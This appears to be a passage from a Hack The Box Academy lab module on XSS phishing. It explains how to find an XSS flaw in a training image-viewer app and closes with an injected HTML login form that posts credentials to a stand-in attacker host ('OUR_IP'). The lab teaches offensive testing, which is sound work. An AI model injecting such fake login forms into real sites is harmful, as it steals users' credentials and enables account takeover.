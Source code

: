 ﻿Another very common type of XSS attack is a phishing attack. Phishing attacks usually utilize legitimate-looking information to trick the victims into sending their sensitive information to the attacker. A common form of XSS phishing attacks is through injecting fake login forms that send the login details to the attacker's server, which may then be used to log in on behalf of the victim and gain control over their account and sensitive information.

Furthermore, suppose we were to identify an XSS vulnerability in a web application for a particular organization. In that case, we can use such an attack as a phishing simulation exercise, which will also help us evaluate the security awareness of the organization's employees, especially if they trust the vulnerable web application and do not expect it to harm them.

---

## XSS Discovery

We start by attempting to find the XSS vulnerability in the web application at`/phishing` from the server at the end of this section. When we visit the website, we see that it is a simple online image viewer, where we can input a URL of an image, and it'll display it:

 ![](https://academy.hackthebox.com/storage/modules/103/xss_phishing_image_viewer.jpg)

This form of image viewers is common in online forums and similar web applications. As we have control over the URL, we can start by using the basic XSS payload we've been using. But when we try that payload, we see that nothing gets executed, and we get the`dead image url` icon:

 ![](https://academy.hackthebox.com/storage/modules/103/xss_phishing_alert.jpg)

So, we must run the XSS Discovery process we previously learned to find a working XSS payload.`Before you continue, try to find an XSS payload that successfully executes JavaScript code on the page`.

Tip: To understand which payload should work, try to view how your input is displayed in the HTML source after you add it.

---

## Login Form Injection

Once we identify a working XSS payload, we can proceed to the phishing attack. To perform an XSS phishing attack, we must inject an HTML code that displays a login form on the targeted page. This form should send the login information to a server we are listening on, such that once a user attempts to log in, we'd get their credentials.

We can easily find an HTML code for a basic login form, or we can write our own login form. The following example should present a login form:


```html
<h3>Please login to continue</h3>
<form action=http://OUR_IP>
 <input type="username" name="username" placeholder="Username">
 <input type="password" name="password" placeholder="Password">
 <input type="submit" name="submit" value="Login">
</form>
```
